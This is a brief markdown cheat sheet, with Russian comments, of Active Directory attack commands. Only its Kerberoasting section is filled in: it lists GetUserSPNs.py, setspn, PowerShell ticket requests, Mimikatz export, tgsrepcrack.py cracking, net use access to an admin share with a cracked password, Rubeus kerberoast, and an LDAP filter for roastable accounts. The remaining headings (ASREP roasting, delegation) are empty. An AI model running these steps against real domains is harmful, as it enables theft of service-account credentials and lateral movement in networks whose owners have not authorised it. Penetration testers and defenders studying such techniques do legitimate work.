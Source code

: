 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T TestDomain -Q \*/\*  
            - загружаем билеты в память для дальнейних действий.  
            - Add-Type -AssemblyName System.IdentityModel  
            - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
            - Проверяем, что билет загружен в память: klist  
            - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
              - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
            - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
 5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting:  


## Unconstrained Delegation:  


## Constrained Delegation:  


## Alternate Service Name:  


## 
